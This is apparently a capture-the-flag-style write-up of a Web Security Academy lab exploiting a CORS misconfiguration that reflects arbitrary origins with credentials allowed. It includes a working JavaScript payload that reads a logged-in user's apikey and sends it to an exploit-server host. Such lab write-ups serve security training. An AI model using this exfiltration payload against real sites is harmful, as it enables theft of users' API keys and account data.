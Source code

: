 When we login using `wiener:peter` credentials, we'll get `apikey` returned which we're supposed to steal.

![picture 1](/assets/images/0abf48bf7e0c86468510043df498133b7dc231b87dfe551302c737de9a5f2174.png)  

Mind the response header 
```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
...
```

This means that credentials can be sent over different domains. If we add `Origin: canary.si`, Response will include that domain in CORS

```
Access-Control-Allow-Origin: canary.si
```

I've used following script to achieve that goal:

```html
<script>
fetch("https://0a4700fd04d5c6d8c0997d1e000b0018.web-security-academy.net/accountDetails",{"credentials":"include"})
.then(res => {return res.json()})
.then(body => { var apikey = body["apikey"]; fetch ("https://exploit-0a7900600492c601c0787c1101bb00b0.exploit-server.net/c="+apikey,{"mode":"no-cors"});})
</script>
```

![picture 2](/assets/images/24061e99854664be8ccfb30aab04304b2e98a9f68193419244de662e58d60aa3.png)
